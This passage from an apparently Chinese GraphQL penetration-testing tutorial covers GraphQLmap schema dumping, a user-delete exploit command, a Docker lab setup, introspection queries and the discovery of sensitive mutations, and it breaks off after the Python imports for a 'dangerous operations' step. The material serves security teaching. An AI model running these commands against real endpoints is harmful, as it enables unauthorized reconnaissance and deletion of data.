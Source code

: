 ### 3.2 自动化攻击框架
使用GraphQLmap进行渗透测试：
```bash
python3 graphqlmap.py -u http://target.com/graphql -i

graphqlmap > dump_schema
graphqlmap > find_fields user
graphqlmap > exploit -m user -a delete -args id=5
```

## 四、实验环境搭建
### 4.1 漏洞靶场部署
使用Docker快速搭建：
```dockerfile
# docker-compose.yml
version: '3'
services:
  vulnerable-api:
    image: apollographql/fullstack-todo
    ports:
      - "4000:4000"
```

### 4.2 攻击环境配置
安装必要工具：
```bash
pip3 install graphql-client inql burp-graphql-scanner
npm install -g graphql-introspection-query
```

### 4.3 渗透测试流程
1. 内省探测：
```bash
curl -X POST -H "Content-Type: application/json" \
-d '{"query":"{__schema{queryType{name}}}"}' \
http://localhost:4000/graphql
```
2. 结构可视化：
```bash
inql -t http://localhost:4000/graphql -o schema.html
```
3. 敏感操作发现：
```graphql
query FindMutations {
  __schema {
    mutationType {
      fields {
        name
        description
        args {
          name
          type {
            name
          }
        }
      }
    }
  }
}
```
4. 执行危险操作：
```python
from gql import Client, gql
from gql.transport.requests import RequestsHTTPTransport
```